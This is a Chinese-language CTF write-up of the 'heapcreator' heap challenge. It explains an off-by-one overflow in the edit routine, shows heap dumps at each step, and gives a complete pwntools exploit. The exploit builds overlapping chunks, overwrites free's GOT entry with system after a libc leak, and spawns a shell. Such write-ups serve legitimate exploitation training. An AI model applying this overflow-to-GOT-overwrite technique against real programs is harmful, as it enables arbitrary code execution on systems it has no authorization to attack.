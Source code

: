 ```yaml
---
title: hitcontraining_heapcreator(off_by_one学习)
description: hitcontraining_heapcreator(off_by_one学习)-writeup
date: 2021-08-12 15:07:56
categories:
 - PWN
tags:
---
```


# hitcontraining_heapcreator(off_by_one学习)

## IDA分析

典型菜单题

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628763276194-5eb9d19c-4e53-47b8-b053-58a9a11fc43b.png)

创建堆块

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628763308672-6d04568b-d687-4e92-9435-9315c0509562.png)

这里heaparray其实就是个一个结构体

![image-20220222141701109](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20220222141701109.png)

编辑堆块，这里允许填写size+1个字节，存在溢出，考虑off_by_one

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628763557429-e63ee5ee-21b8-4a6d-96ad-d8f612a2d376.png)

打印size和content

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628763639613-85fbe0b4-a26f-4d10-8aac-141cac7d5226.png)

free堆块

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628763667187-531ee658-dcd5-40da-a27a-dbca9c8941f6.png)

## 调试分析

我们知道chunk的prev_size位在前一个chunk不是free chunk的时候是作为存储前一个chunk的数据的，那我们申请一个0x18的chunk和一个0x10的chunk调试看看

```python
create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
0x61c000:	0x0000000000000000	0x0000000000000021
0x61c010:	0x0000000000000018	0x000000000061c030 #chunk0的size和content指针
0x61c020:	0x0000000000000000	0x0000000000000021 #chunk0
0x61c030:	0x6161616161616161	0x6161616161616161 #aaaa.....
0x61c040:	0x6161616161616161	0x0000000000000021
0x61c050:	0x0000000000000010	0x000000000061c070 #chunk1的size和content指针
0x61c060:	0x0000000000000000	0x0000000000000021 #chunk1
0x61c070:	0x6262626262626262	0x6262626262626262 #bbbb.....
0x61c080:	0x0000000000000000	0x0000000000020f81 #top chunk
0x61c090:	0x0000000000000000	0x0000000000000000
```

可以看到chunk0的数据填满了存储size和content指针的chunk的prev_size位，记得刚刚的edit函数里有个off_by_one漏洞，这样就可以将下一个chunk的size位改了，具体利用看脚本

```python
create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
create(0x10,'c'*0x10) #idx2
create(0x10,'/bin/sh\x00') #idx3
```

首先申请4个堆块，最后一个堆块写入/bin/sh\x00以便后面使用

```python
0x1d10000:	0x0000000000000000	0x0000000000000021 
0x1d10010:	0x0000000000000018	0x0000000001d10030 #chunk0的size和content指针
0x1d10020:	0x0000000000000000	0x0000000000000021 #chunk0
0x1d10030:	0x6161616161616161	0x6161616161616161 #aaaa....
0x1d10040:	0x6161616161616161	0x0000000000000021
0x1d10050:	0x0000000000000010	0x0000000001d10070 #chunk1的size和content指针
0x1d10060:	0x0000000000000000	0x0000000000000021 #chunk1
0x1d10070:	0x6262626262626262	0x6262626262626262 #bbbb....
0x1d10080:	0x0000000000000000	0x0000000000000021 
0x1d10090:	0x0000000000000010	0x0000000001d100b0 #chunk2的size和content指针
0x1d100a0:	0x0000000000000000	0x0000000000000021 #chunk1
0x1d100b0:	0x6363636363636363	0x6363636363636363 #cccc....
0x1d100c0:	0x0000000000000000	0x0000000000000021
0x1d100d0:	0x0000000000000010	0x0000000001d100f0 #chunk3的size和content指针
0x1d100e0:	0x0000000000000000	0x0000000000000021 #chunk3
0x1d100f0:	0x0068732f6e69622f	0x000000000000000a #/bin/sh\x00
0x1d10100:	0x0000000000000000	0x0000000000020f01 #top chunk
0x1d10110:	0x0000000000000000	0x0000000000000000
0x1d10120:	0x0000000000000000	0x0000000000000000
0x1d10130:	0x0000000000000000	0x0000000000000000
```

然后调用edit，通过修改chunk0的content溢出将下一个chunk的size位改成0x81，然后free，这样就后面通过申请0x70字节chunk就能申请回来了，而且content直接覆盖了后面几个chunk

```python
edit(0,'a'*0x18+p64(0x81))
delete(1)
create(0x70,'d'*0x40+p64(8)+p64(elf.got['free'])) #idx1
```

我们通过重新申请chunk1，将chunk2的content指针改成free的got地址

```python
0x24a3000:	0x0000000000000000	0x0000000000000021
0x24a3010:	0x0000000000000018	0x00000000024a3030 #chunk0的size和content指针
0x24a3020:	0x0000000000000000	0x0000000000000021 #chunk0
0x24a3030:	0x6161616161616161	0x6161616161616161 #aaaa....
0x24a3040:	0x6161616161616161	0x0000000000000081 #chunk1
0x24a3050:	0x6464646464646464	0x6464646464646464 #dddd....
0x24a3060:	0x6464646464646464	0x6464646464646464 #ddddd...
0x24a3070:	0x6464646464646464	0x6464646464646464
0x24a3080:	0x6464646464646464	0x6464646464646464
0x24a3090:	0x0000000000000008	0x0000000000602018 #chunk2的size和free_got地址
0x24a30a0:	0x000000000000000a	0x0000000000000021
0x24a30b0:	0x6363636363636363	0x6363636363636363
0x24a30c0:	0x0000000000000000	0x0000000000000021
0x24a30d0:	0x0000000000000010	0x00000000024a30f0
0x24a30e0:	0x0000000000000000	0x0000000000000021
0x24a30f0:	0x0068732f6e69622f	0x000000000000000a
0x24a3100:	0x0000000000000000	0x0000000000020f01
0x24a3110:	0x0000000000000000	0x0000000000000000
0x24a3120:	0x0000000000000000	0x0000000000000000
```

然后通过show(2)将free got中的地址打印出来就可以得到free的真实地址，然后算出libc base，然后得到system的地址，将system的地址写到free的got表，这样之后调用free函数的时候就变成调用system了

```python
show(2)
p.recvuntil('Content : ')
free_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
print(hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

edit(2,p64(sys_addr))

delete(3)
```

最后free掉chunk3，本来是free(binsh的地址)变成system(binsh的地址)也就是system('/bin/sh')，这样就可以get shell了

## EXP

```python
from pwn import *
from LibcSearcher import *

# context.log_level = 'debug'
p = process('./heapcreator')
# p=remote("node4.buuoj.cn",28916)
elf=ELF('./heapcreator')

def create(length,value):
	p.recvuntil("Your choice :")
	p.sendline("1")
	p.recvuntil("Size of Heap : ")
	p.sendline(str(int(length)))
	p.recvuntil("Content of heap:")
	p.sendline(value)

def edit(index,value):
	p.recvuntil("Your choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(int(index)))
	p.recvuntil("Content of heap : ")
	p.sendline(value)

def show(index):
	p.recvuntil("Your choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(int(index)))

def delete(index):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(int(index)))

create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
create(0x10,'c'*0x10) #idx2
create(0x10,'/bin/sh\x00') #idx3
edit(0,'a'*0x18+p64(0x81))
delete(1)
create(0x70,'d'*0x40+p64(8)+p64(elf.got['free'])) #idx1
pause()
show(2)
p.recvuntil('Content : ')
free_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
print(hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

edit(2,p64(sys_addr))

delete(3)
p.interactive()
```